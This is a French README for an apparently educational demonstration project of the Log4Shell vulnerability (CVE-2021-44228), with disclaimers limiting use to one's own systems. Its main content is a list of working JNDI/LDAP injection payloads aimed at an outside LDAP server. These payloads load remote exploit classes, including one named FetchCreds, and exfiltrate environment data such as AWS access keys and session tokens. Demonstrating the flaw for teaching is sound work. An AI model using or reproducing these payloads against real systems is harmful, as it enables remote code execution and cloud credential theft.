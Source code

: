 # Log4Shell

Ce projet est une démonstration du fonctionnement de la faille de sécurité log4shell.

Cette faille est décrite dans la CVE-2021-44228.

Le projet est destiné à un usage pédagogique uniquement.
Il ne doit être utilisé que sur votre propre système et uniquement dans un but expérimental.

**Toute exécution est effectuée à vos risques et périls.**
**L'auteur décline toute responsabilité en cas d'incident en conséquence de l'exécution du projet.**


## Exemple de commandes
    
    ldap_server=i-09cd4f41e5a2b1d66.eu-west-3.compute.internal:1389
    hello '${jndi:ldap://'"${ldap_server}"'/run=log4shell.Exploit}'
    hello '${jndi:ldap://'"${ldap_server}"'/run=log4shell.ExploitP,msg=my friend}'
    hello '${jndi:ldap://'"${ldap_server}"'/run=log4shell.aws.FetchCreds}'
    hello '${jndi:ldap://'"${ldap_server}"'/log=PATH:${env:USER}}'
    hello '${jndi:ldap://'"${ldap_server}"'/log=PATH:${env:PATH}}'
    hello '${jndi:ldap://'"${ldap_server}"'/log=os=${java:os}}'
    hello '${jndi:ldap://'"${ldap_server}"'/log=AWS_ACCESS_KEY_ID=${env:AWS_ACCESS_KEY_ID},AWS_SECRET_ACCESS_KEY=${env:AWS_SECRET_ACCESS_ID},AWS_SESSION_TOKEN=${env:AWS_SESSION_TOKEN}}'
    

